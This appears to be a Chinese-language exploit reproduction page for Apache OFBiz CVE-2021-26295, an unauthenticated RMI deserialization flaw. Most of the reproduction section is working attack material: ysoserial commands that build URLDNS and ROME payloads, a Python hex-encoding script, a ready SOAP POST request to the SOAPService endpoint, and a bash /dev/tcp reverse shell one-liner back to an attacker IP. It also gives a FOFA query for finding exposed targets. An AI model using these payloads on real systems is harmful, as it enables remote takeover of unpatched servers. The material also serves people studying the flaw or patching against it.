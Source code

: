 ```yaml
---
Title: Apache OFBiz RMI反序列化漏洞 CVE-2021-26295
---
```


# Apache OFBiz RMI反序列化漏洞 CVE-2021-26295

## 漏洞描述

OFBiz是基于Java的Web框架，包括实体引擎，服务引擎和基于小部件的UI。

近日，Apache OFBiz官方发布安全更新。Apache OFBiz 存在RMI反序列化前台命令执行，未经身份验证的攻击者可以使用此漏洞来成功接管Apache OFBiz，建议相关用户尽快测试漏洞修复的版本并及时升级。

## 漏洞影响

<a-checkbox checked>Apache OFBiz < 17.12.06</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBcGFjaGVfT0ZCaXoi">app="Apache_OFBiz"</a-button>
</a-checkbox>

## 漏洞复现

利用 `ysoserial`生成反序列化数据

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS http://xxx.xxx.xxx.xxx > payload.txt
```

```python
#!/usr/bin/python
#conding=utf8
import binascii
with open('payload.txt', 'rb') as payload_handle:
   content = payload_handle.read()
str_hex = binascii.hexlify(content)
print(str_hex)
```

发送请求包后查看Dnslog验证漏洞

```
POST /webtools/control/SOAPService 

<?xml version='1.0' encoding='UTF-8'?><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header/><soapenv:Body><test:clearAllEntityCaches xmlns:test="http://ofbiz.apache.org/service/"><test:cus-obj>dnslog反序列化数据</test:cus-obj></test:clearAllEntityCaches></soapenv:Body></soapenv:Envelope>
```

反弹Shell可以使用`ROME反序列化链`

```shell
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar ROME  "bash -c {echo,xxxxxxxxxxxxxxxxxxxxxxx}|{base64,-d}|{bash,-i}" | xxd|cut -f 2,3,4,5,6,7,8,9 -d " "|tr -d ' '|tr -d '\n'

bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'   base64加密写入然后执行命令
```

![c3afc0d1-7dc6-4161-a0fd-901797bf1a31](../../../.vuepress/public/img/c3afc0d1-7dc6-4161-a0fd-901797bf1a31.png)